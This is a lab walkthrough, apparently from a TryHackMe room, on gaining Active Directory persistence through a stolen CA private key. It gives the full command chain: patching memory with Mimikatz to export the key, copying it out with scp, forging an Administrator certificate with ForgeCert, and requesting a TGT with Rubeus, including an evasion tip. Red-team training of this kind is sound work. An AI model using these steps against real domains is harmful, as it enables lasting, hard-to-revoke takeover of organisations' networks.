









Certificates
Persistence Through Certificates
A quick note here. The techniques discussed from this point forward are incredibly invasive and hard to remove. Even if you have signoff on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild. Make sure you fully understand the consequences of using these techniques and only perform them if you have prior approval on your assessment and they are deemed necessary. In most cases, a red team exercise would be dechained at this point instead of using these techniques. Meaning you would most likely not perform these persistence techniques but rather simulate them.
The last two persistence techniques relied on credentials. While we can definitely make the blue team's lives complicated, they can ultimately rotate enough credentials to kick us out. So while these techniques are great to keep the blue team busy while we keep them busy, we should look to use persistence techniques that are credential agnostic, meaning the rotation of these will not kick us out. The first of these we will be looking at is certificates.
The Return of AD CS
In the Exploiting AD room, we leveraged certificates to become Domain Admins. However, certificates can also be used for persistence. All we need is a valid certificate that can be used for Client Authentication. This will allow us to use the certificate to request a TGT. The beauty of this? We can continue requesting TGTs no matter how many rotations they do on the account we are attacking. The only way we can be kicked out is if they revoke the certificate we generated or if it expires. Meaning we probably have persistent access by default for roughly the next 5 years.
If you are interested in a refresh about requesting a certificate and using it for Kerberos authentication, please go to either the Exploiting AD or AD Certificates Template room. However, in this room, we are not messing around. We are going after the Certificate Authority (CA) itself.
Depending on our access, we can take it another step further. We could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it. Even worse, since these certificates were never issued by the CA, the blue team has no ability to revoke them. This would be even worse for the blue team since it would mean a rotation of the CA, meaning all issued certificates would have to be revoked by the blue team to kick us out. Imagine you've just spent the last two days performing a domain takeback by rotating the credentials of every single privileges account, resetting all the golden and silver tickets, just to realise the attackers persisted by becoming your CA. Yikes!
Extracting the Private Key
The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI). This means we can use tools such as “Mimikatz and SharpDPAPI” to extract the CA certificate and thus the private key from the CA. Mimikatz is the simplest tool to use, but if you want to experience other tools, have a look here. Use SSH to authenticate to THMDC.za.tryhackme.loc using the Administrator credentials from Task 2, create a unique directory for your user, move to it, and load Mimikatz:
Links: https://pentestlab.blog/2021/11/15/golden-certificate/
Links: https://github.com/GhostPack/SharpDPAPI
First, we SSH to Administrator account into the THMDC.za.tryhackme.loc machine & start mimikatz:
Note: As we are attacking the CA, we need to access the DC machine to get the certificates.
To View the Certificates Stored on the DC
crypto::certificates /systemstore:local_machine

We can see that there is a CA certificate on the DC. We can also note that some of these certificates were set not to allow us to export the key. Without this private key, we would not be able to generate new certificates. Luckily, Mimikatz allows us to patch memory to make these keys exportable:
privilege::debug
crypto::capi
crypto::cng

If you get an error, don't worry, it just means someone else executed the patch before you. With these services patched, we can use Mimikatz to export the certificates:[I didn't get any error]
crypto::certificates /systemstore:local_machine /export

The exported certificates will be stored in both PFX and DER format to disk. We can view them in the current working directory.

The za-THMDC-CA.pfx certificate is the one we are particularly interested in. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz. Download or copy this certificate to your AttackBox using SCP, and then copy it to your low-privileged user's home directory on THMWRK1. You can also perform the rest of the steps on your own non-domain-joined Windows machine if you prefer.
Downloading the Certificates to Local kali Machine:
scp za.tryhackme.loc\\Administrator@thmdc.za.tryhackme.loc:c:/\Users/\Administrator/\cybex/\local_machine_My_1_za-THMDC-CA.der za-THMDC-CA.der
scp za.tryhackme.loc\\Administrator@thmdc.za.tryhackme.loc:c:/\Users/\Administrator/\cybex/\local_machine_My_1_za-THMDC-CA.pfx za-THMDC-CA.pfx

Uploading the Certificates to the THMWRK1 machine:
scp za-THMDC-CA.der za.tryhackme.loc\\lorraine.gill@THMWRK1.za.tryhackme.loc:C:/\Users/\lorraine.gill/\za-THMDC-CA.der
scp za-THMDC-CA.pfx za.tryhackme.loc\\lorraine.gill@THMWRK1.za.tryhackme.loc:C:/\Users/\lorraine.gill/\za-THMDC-CA.pfx

Generating our own Certificates
Now that we have the private key and root CA certificate, we can use the SpectorOps ForgeCert tool to forge a Client Authenticate certificate for any user we want. The ForgeCert and Rubeus binaries are stored in the C:\Tools\ directory on THMWRK1. Let's use ForgeCert to generate a new certificate:
Link: https://github.com/GhostPack/ForgeCert
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
Parameters explained:
• CaCertPath - The path to our exported CA certificate.
• CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of mimikatz.
• Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.
• SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.
• NewCertPath - The path to where ForgeCert will store the generated certificate.
• NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.
Note: Use the above in the THMWRK1 machine.

We now have our forged certificate. We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted. We will use the following command:
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Password123 /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.61.101
Let's break down the parameters:
• /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
• /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
• /certificate - Path to the certificate we have generated
• /password - The password for our certificate file
• /outfile - The file where our TGT will be output to
• /domain - The FQDN of the domain we are currently attacking
• /dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running

Now we can use Mimikatz to load the TGT and authenticate to THMDC:
kerberos::ptt administrator.kirbi

We Are No Longer Friends With The Blue Team
Certificate persistence is significantly harder to defend against. Even if you rotate the credentials of the compromised account, the certificate will still be valid. The only way to remove the persistence is to issue a revocation of the certificate. However, this would only be possible if we generated the certificate through legitimate channels. Since we exported the CA and generated the certificate ourselves, it does not appear on AD CS's list of issued certificates, meaning the blue team will not be able to revoke our certificate.
So what's the only solution to remove the persistence? Well, this is why we are no longer friends. They will have to revoke the root CA certificate. But revoking this certificate means that all certificates issued by AD CS would all of a sudden be invalid. Meaning they will have to generate a new certificate for every system that uses AD CS. You should start to see why this type of persistence is incredibly dangerous and would require full rebuilds of systems if performed.